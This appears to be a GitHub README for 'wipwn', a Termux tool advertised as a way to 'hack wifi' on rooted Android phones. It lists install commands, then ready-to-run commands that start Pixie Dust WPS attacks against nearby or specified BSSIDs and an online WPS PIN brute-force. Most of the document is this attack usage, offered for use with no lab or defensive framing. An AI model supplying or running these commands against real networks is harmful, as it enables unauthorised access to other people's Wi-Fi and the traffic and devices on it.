 # wipwn
Hack wifi using termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ShTasrif/wipwn
cd wipwn
chmod +x wipwn.py
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
